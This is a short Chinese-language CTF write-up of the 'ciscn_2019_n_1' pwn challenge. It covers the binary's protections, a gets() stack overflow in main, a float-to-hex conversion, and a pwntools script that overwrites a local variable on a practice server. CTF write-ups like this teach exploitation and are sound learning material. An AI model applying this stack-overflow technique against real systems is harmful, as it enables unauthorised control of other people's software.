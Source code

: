 # 知识点

栈溢出覆盖变量、小数转十六进制



# 题目分析

1. 查看保护情况，开启NX保护。

   ```bash
   [*] '/root/Desktop/ciscn_2019_n_1'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 进入main函数，发现存在gets函数栈溢出漏洞。可以覆盖变量v2为指定数值。

   <img src="./asset/ida1.png" alt="ida1" style="zoom:50%;" />

3. 将小数转换为十六进制：0x41348000

   ```python
   import struct
   
   print hex(struct.unpack('<I', struct.pack('<f', 11.28125))[0])
   ```

   

# Exp

```python
from pwn import *

io = process('./ciscn_2019_n_1')
io = remote('node4.buuoj.cn', '28348')

payload = 'A' * 0x2C
payload += p64(0x41348000)

io.sendline(payload)

io.interactive()
```

